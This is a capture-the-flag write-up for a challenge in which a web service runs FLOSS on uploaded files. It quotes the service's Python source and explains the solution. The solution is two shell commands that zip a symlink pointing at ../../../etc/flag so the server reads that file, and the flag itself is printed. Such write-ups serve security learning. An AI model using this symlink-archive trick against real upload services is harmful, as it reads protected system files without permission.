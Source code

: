 # 🎓Throw your malware here!
> FLOSS is the superior "strings", so I've decided to run it as a SAAS! Enough with the obfuscated code that the pigeon keeps throwing at me!

> In fact, I decided to handle all types of files, even non-PE files and password-protected zip files!

> Flag is located at `/etc/flag`

## About the Challenge
We have been given a source code called `app.py` (You can download the file [here](dist_throw-your-malware-here_0140c3bcedfeee2909f426086fbab6fa4c777229.zip)) and here is the content of the file

```python
from typing import Optional
import zipfile
import random
import shutil
import string
import subprocess
from pathlib import Path

import pefile
from fastapi import FastAPI, HTTPException, UploadFile
from fastapi.responses import JSONResponse


FILE_CACHE = Path("/app/cache")
FLOSS_PATH = Path("/usr/local/bin/floss")

app = FastAPI()


def get_random_string(length: int = 16) -> str:
    # choose from all lowercase letter
    letters = string.ascii_lowercase
    return "".join(random.choice(letters) for _ in range(length))


@app.on_event("startup")
def startup():
    # Ensure caches exist
    if not FILE_CACHE.is_dir():
        FILE_CACHE.mkdir()


def run_floss(target: Path) -> str:
    args = [str(target), "--json"]
    try:
        pefile.PE(name=str(target))
    except pefile.PEFormatError:
        args.extend(("--only", "static"))
    output = subprocess.check_output((FLOSS_PATH, *args))
    return output.decode()


@app.post("/floss")
def floss_endpoint(sample: UploadFile, password: Optional[str]) -> JSONResponse:
    random_path = get_random_string()
    while (target_path := FILE_CACHE / random_path).exists():
        random_path = get_random_string()
    with target_path.open("wb+") as f:
        shutil.copyfileobj(sample.file, f)
    is_zipfile = zipfile.is_zipfile(target_path)
    if is_zipfile:
        with zipfile.ZipFile(target_path) as f:
            # No zip bombs!
            file_size_sum = sum(data.file_size for data in f.filelist)
            compressed_size_sum = sum(data.compress_size for data in f.filelist)
            if (file_size_sum / compressed_size_sum > 10):
                raise HTTPException(413, "Zip Bomb Detected")

            zipobjects = f.infolist()
            if any(zipobject.file_size > 50000 for zipobject in zipobjects):
                raise HTTPException(418, "I'm a teapot!")
            files = f.namelist()
        args = ["unzip"]
        if password:
            args.extend(("-P", password))
        args.extend((str(target_path), "-d", f"{FILE_CACHE / random_path}-zip"))
        a = subprocess.run(args)
        if a.returncode != 0:
            raise HTTPException(422, "Invalid password!")
        targets = [FILE_CACHE / f"{random_path}-zip" / file for file in files]
    else:
        targets = [target_path]
    results = [run_floss(target) for target in targets]
    return JSONResponse(
        {target.name: result for target, result in zip(targets, results)}
        if is_zipfile
        else results[0]
    )
```

The program accepts a file upload via the /floss endpoint and analyzes the uploaded file using FLOSS. It first saves the uploaded file to a cache directory. If the uploaded file is a ZIP archive, it checks for zip bomb and teapot conditions to prevent malicious or large files from being processed.

If the file is a ZIP archive, it extracts its contents to a separate directory in the cache. Otherwise, it directly analyzes the uploaded file. For each file (or extracted file in the case of a ZIP archive), it runs the run_floss() function, which invokes FLOSS to perform the analysis. The output is returned as a JSON response.

## How to Solve?
To solve this chall, im using this [website](https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249) as a reference. We can read the content of `/etc/flag` by using `zipslip` vulnerability. Here is the command I used

```
ln -s ../../../etc/flag awikwok.link
zip -P password --symlink awikwok.zip awikwok.link
```

And then upload to the website to obtain the flag

![flag](images/flag.png)

```
SEE{i_just_wanted_to_be_kind_and_run_a_floss_web_api_man}
```